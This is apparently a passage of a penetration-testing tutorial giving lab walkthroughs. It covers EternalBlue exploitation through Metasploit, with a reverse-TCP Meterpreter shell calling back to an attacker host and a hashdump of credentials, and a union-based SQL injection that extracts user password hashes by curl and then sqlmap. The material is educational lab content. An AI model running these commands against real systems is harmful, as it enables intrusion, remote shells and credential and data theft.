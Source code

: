 ## 🧪 Real Lab Examples

### Example 1: SMB EternalBlue Exploitation
```bash
# Step 1: Vulnerability identification
nmap --script smb-vuln-ms17-010 -p 445 192.168.1.100
# Output:
# | smb-vuln-ms17-010:
# |   VULNERABLE:
# |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
# |     State: VULNERABLE

# Step 2: Metasploit exploitation
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444
exploit

# Expected output:
# [*] Started reverse TCP handler on 192.168.1.50:4444
# [*] 192.168.1.100:445 - Connecting to target for exploitation.
# [+] 192.168.1.100:445 - Connection established for exploitation.
# [*] Sending stage (200262 bytes) to 192.168.1.100
# [*] Meterpreter session 1 opened

# Step 3: Post-exploitation
meterpreter > getuid
# Output: Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
meterpreter > hashdump
```

### Example 2: Web Application SQL Injection
```bash
# Step 1: Manual identification
curl "http://192.168.1.100/login.php?id=1'"
# Output: MySQL error: You have an error in your SQL syntax

# Step 2: Union-based exploitation
curl "http://192.168.1.100/login.php?id=1 UNION SELECT 1,2,3,4"
# Output: Shows columns 2,3 are reflected

curl "http://192.168.1.100/login.php?id=1 UNION SELECT 1,database(),user(),version()"
# Output: Database: webapp, User: root@localhost, Version: 5.5.62

# Step 3: Data extraction
curl "http://192.168.1.100/login.php?id=1 UNION SELECT 1,username,password,4 FROM users"
# Output: admin:5d41402abc4b2a76b9719d911017c592 (hash)

# Step 4: Automated exploitation
sqlmap -u "http://192.168.1.100/login.php?id=1" --dump-all
# Output: Complete database dump with all tables and data
```
